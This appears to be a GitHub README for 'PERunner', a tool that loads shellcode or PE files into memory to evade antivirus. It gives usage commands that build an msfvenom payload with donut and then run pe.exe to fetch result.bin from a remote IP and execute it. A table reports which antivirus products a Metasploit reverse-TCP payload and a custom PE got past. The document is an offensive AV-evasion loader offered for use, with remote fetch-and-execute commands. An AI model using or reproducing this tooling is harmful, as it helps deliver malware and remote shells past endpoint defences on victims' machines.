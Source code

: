 # PERunner
Runs RAW or PE file in memory, avoiding AV.
First generate RAW with shellcoding.py (Requires https://github.com/TheWover/donut in current directory). 
Example of usage:

`python3 shellcoding.py -t msf -p 'msfvenom -a x86 --platform Windows -p windows/exec CMD="calc.exe" -f raw'`

`python3 shellcoding.py -t pe -p your_exe_not_in_golang.exe `

Next run pe.exe with -u params and path the url to result.bin

`pe.exe -u http://10.10.10.10/result.bin`


| Tested AV     | MSF_REV_TCP   | OWN PE |
| ------------- |:-------------:|:-----:|
| AVAST     | + | + |
| ESET      | + | + |
| DrWEB     | + | + |
| 360Sec    | + | + |
| KASPERSKY | - | + |
| AVG       | + | + |
